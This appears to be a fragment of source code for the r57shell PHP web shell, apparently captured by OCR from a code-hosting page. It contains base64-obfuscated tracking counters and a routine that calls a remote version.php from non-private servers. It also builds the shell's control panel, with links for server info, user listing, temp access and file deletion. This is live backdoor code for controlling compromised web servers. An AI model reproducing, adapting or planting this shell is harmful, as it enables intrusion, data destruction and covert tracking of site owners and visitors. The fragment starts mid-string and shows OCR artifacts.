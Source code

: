 i8vY2xpY2suaG90bG9nLnJ1Lz84MTYwNicgdGFyZ2V0PSdfdG9wJz48aW1nICIrIiBzcmM9J2h0dHA6Ly9oaXQ0LmhvdGxvZy5ydS9jZ2ktYmluL2hv
dGxvZy9jb3VudD8iK2hvdGxvZ19yKyImJyBib3JkZXI9MCB3aWR0aD0xIGhlaWdodD0xIGFsdD0xPjwvYT4iKTwvc2NyaXB0Pjxub3NjcmlwdD48YSB
ocmVmPWh0dHA6Ly9jbGljay5ob3Rsb2cucnUvPzgxNjA2IHRhcmdldD1fdG9wPjxpbWdzcmM9Imh0dHA6Ly9oaXQ0LmhvdGxvZy5ydS9jZ2ktYmluL2
hvdGxvZy9jb3VudD9zPTgxNjA2JmltPTEiIGJvcmRlcj0wd2lkdGg9IjEiIGhlaWdodD0iMSIgYWx0PSJIb3RMb2ciPjwvYT48L25vc2NyaXB0Pg==";
$c2 = "PCEtLUxpdmVJbnRlcm5ldCBjb3VudGVyLS0+PHNjcmlwdCBsYW5ndWFnZT0iSmF2YVNjcmlwdCI+PCEtLQ0KZG9jdW1lbnQud3JpdGUoJzxh
IGhyZWY9Imh0dHA6Ly93d3cubGl2ZWludGVybmV0LnJ1L2NsaWNrIiAnKw0KJ3RhcmdldD1fYmxhbms+PGltZyBzcmM9Imh0dHA6Ly9jb3VudGVyLnl
hZHJvLnJ1L2hpdD90NTIuNjtyJysNCmVzY2FwZShkb2N1bWVudC5yZWZlcnJlcikrKCh0eXBlb2Yoc2NyZWVuKT09J3VuZGVmaW5lZCcpPycnOg0KJz
tzJytzY3JlZW4ud2lkdGgrJyonK3NjcmVlbi5oZWlnaHQrJyonKyhzY3JlZW4uY29sb3JEZXB0aD8NCnNjcmVlbi5jb2xvckRlcHRoOnNjcmVlbi5wa
XhlbERlcHRoKSkrJzsnK01hdGgucmFuZG9tKCkrDQonIiBhbHQ9ImxpdmVpbnRlcm5ldC5ydTog7+7q4Ofg7e4g9+jx6+4g7/Du8ezu8vDu4iDoIO/u
8eXy6PLl6+XpIOfgIDI0IPfg8eAiICcrDQonYm9yZGVyPTAgd2lkdGg9MCBoZWlnaHQ9MD48L2E+JykvLy0tPjwvc2NyaXB0PjwhLS0vTGl2ZUludGV
ybmV0LS0+";
echo $head;
echo '&lt;/head&gt;';
if(empty($_POST['cmd'])) {
$serv = array(127,192,172,10);
$addr=@explode('.', $_SERVER['SERVER_ADDR']);
$current_version = str_replace('.','',$version);
if (!in_array($addr[0], $serv)) {
@print "&lt;img src=\"http://127.0.0.1/r57shell/version.php?img=1&version=".$current_version."\" border=0 height=0 width=0&gt;";
@readfile ("http://127.0.0.1/r57shell/version.php?version=".$current_version."");}}
echo '&lt;body bgcolor="#396D95"&gt;&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;
&lt;tr&gt;&lt;td bgcolor=#396D95 width=160&gt;&lt;font face=Verdana size=2&gt;'.ws(1).'&nbsp;
&lt;/b&gt;&lt;/font&gt;&lt;b&gt;'.ws(2).'r57shell '.$version.'&lt;/b&gt;
&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2&gt;';
echo ws(2);
echo "&lt;b&gt;".date ("d-m-Y H:i:s")."&lt;/b&gt;";
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?phpinfo title=\"".$lang[$language.'_text46']."\"&gt;&lt;b&gt;phpinfo&lt;/b&gt;&lt;/a&gt; ".$rb;
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?phpini title=\"".$lang[$language.'_text47']."\"&gt;&lt;b&gt;php.ini&lt;/b&gt;&lt;/a&gt; ".$rb;
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?cpu title=\"".$lang[$language.'_text50']."\"&gt;&lt;b&gt;cpu&lt;/b&gt;&lt;/a&gt; ".$rb;
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?mem title=\"".$lang[$language.'_text51']."\"&gt;&lt;b&gt;mem&lt;/b&gt;&lt;/a&gt; ".$rb;
if($unix) { echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?users title=\"".$lang[$language.'_text95']."\"&gt;&lt;b&gt;users&lt;/b&gt;&lt;/a&gt; ".$rb; }
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?tmp title=\"".$lang[$language.'_text48']."\"&gt;&lt;b&gt;tmp&lt;/b&gt;&lt;/a&gt; ".$rb;
echo ws(2).$lb." &lt;a href=".$_SERVER['PHP_SELF']."?delete title=\"".$lang[$language.'_text49']."\"&gt;&lt;b&gt;delete&lt;/b&gt;&lt;/a&gt; ".$rb."&lt;br&gt;";
echo ws(2);
echo (($safe_mode)?("safe_mode: &lt;b&gt;&lt;font color=white&gt;ON&lt;/font&gt;&lt;/b&gt;"):("safe_mode: &lt;b&gt;&lt;font color=orange&gt;OFF&lt;/font&gt;&lt;/b&gt;"));
echo ws(2);
